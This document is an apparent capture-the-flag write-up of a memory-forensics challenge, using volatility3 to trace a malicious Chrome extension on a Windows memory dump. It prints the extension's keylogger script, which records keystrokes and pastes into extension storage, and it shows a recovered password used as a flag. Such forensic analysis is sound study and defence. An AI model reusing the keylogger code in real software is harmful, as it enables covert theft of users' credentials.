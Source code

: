 # Stealth Invasion
### Selene's normally secure laptop recently fell victim to a covert attack. Unbeknownst to her, a malicious Chrome extension was stealthily installed, masquerading as a useful productivity tool. Alarmed by unusual network activity, Selene is now racing against time to trace the intrusion, remove the malicious software, and bolster her digital defenses before more damage is done.

When we open the challenge, we're immediately confronted with a **memdump.elf** file. There's no need to look far to find out what to do.

I start volatility3, then run: `python3 vol.py -f memdump.elf windows.info` to get some basic information.

![imageinfo](https://github.com/user-attachments/assets/55e85d2d-3a48-4bc0-a0b2-0f6d6c2c2456)

### Flag 1 : What is the PID of the original Google Chrome process ?

With a simple command : 
```bash
python3 vol.py -f memdump.elf windows.pslist | grep 'chrome.exe'
``` 
Leads us to this : 

![image chrome](https://github.com/user-attachments/assets/1d74d818-e5be-40cd-865b-9ed4c2b8e3a8)

### Flag 2 : What is the only folder on the Desktop ?

This time we dig a little into the files with :
```bash 
python3 vol.py -f memdump.elf windows.filescan | grep '\Desktop'
``` 
To find :

![desktop](https://github.com/user-attachments/assets/a324da96-43e1-44f2-9ec3-ebef76df7d24)

### Flag 3 : What is the Extention's ID ?

To find the extension ID, simply look in the "Default" folder of Google Chrome where all extension IDs are stored. We do this with :
```bash
python3 vol.py -f memdump.elf windows.filescan | grep '\Users\selene\AppData\Local\Google\Chrome\User Data\Default\'
```

![id](https://github.com/user-attachments/assets/29b52914-ea50-4771-b623-3add44fa8266)

### Flag 4 : After examining the malicious extention's code, what is the log filename in which the datais stored ?

Well, for this one, we could dump the extension to study it, but given that the command before us revealed a `000003.log` file, we don't really need to look any further than that.

### Flag 5 : What is the URL the user navigated to ?

Now that we know where the log file is, we can dump it.
```bash
python3 vol.py -f memdump.elf windows.dumpfiles –virtaddr 0x708caba14d0 
```

![logg](https://github.com/user-attachments/assets/887d8bc8-a817-45f2-be3f-db036c1fe9d1)

But since the file was difficult to read, I directly dumped the History file
from Google : 

![history google](https://github.com/user-attachments/assets/818eda20-ef27-4354-a759-c8078fcc69d1)

The file being a database, to see the last URL you just need to make a simple SQL query :
```sql
SELECT url, title, visit_count, last_visit_time FROM urls ORDER BY last_visit_time DESC;
```
Or simply open the file with DB Browser :  

![last url](https://github.com/user-attachments/assets/81a67d84-0fe4-4acc-a650-b1ed4b9bf2d9)

### Flag 6 : What is the password of selene@rangers.eldoria.com ?
It's time to dive deeper into this nasty extension. We're going to dump everything about it to analyze everything.

![dumpaa](https://github.com/user-attachments/assets/552d1745-f44f-461a-9a2b-a4dac9074d04)
![flag6num2](https://github.com/user-attachments/assets/498c9a01-67dd-429d-9f05-c459f5eb441b)

After analysis, we see that the `background.js` file is a **keylogger** which adds `\r\n` in the logs each time something is copied or the enter key is pressed :
```javascript
function addLog(s) {
    
    if (s.length != 1 && s !== "Enter" && !s.startsWith("PASTE"))  {
        s = `|${s}|`;
    } else if (s === "Enter" || s.startsWith("PASTE")) {
        s = s + "\r\n";
    }

    chrome.storage.local.get(["log"]).then((data) => {
        if (!data.log) {
            data.log = "";
        }

        data.log += s;

        chrome.storage.local.set({ 'log': data.log });
    });
}


chrome.runtime.onConnect.addListener((port) => {

    console.assert(port.name === "conn");
    console.log("v1.2.1");

    port.onMessage.addListener( ({ type, data }) => {
        if (type === 'key') {
            addLog(data);
        } else if (type == 'paste') {
            addLog('PASTE:' + data);
        }
    });
});

chrome.runtime.onMessage.addListener(
    function(request, sender, sendResponse) {
        if (request.check === "replace_html" && chrome.storage.local.get("replace_html")) {
            sendResponse({ url: chrome.storage.local.get('replace_html_url')});
        }
    }
);
```
We then dump the log file, do a bit of sorting to make it easier to read, and then :

![log file](https://github.com/user-attachments/assets/b26627c4-e280-447c-9d05-7bbb54392511)

We finally see the password **`clip-mummify-proofs`** at the end of the file.

And with that, that gives us 6/6 flags. So the challenge is complete !
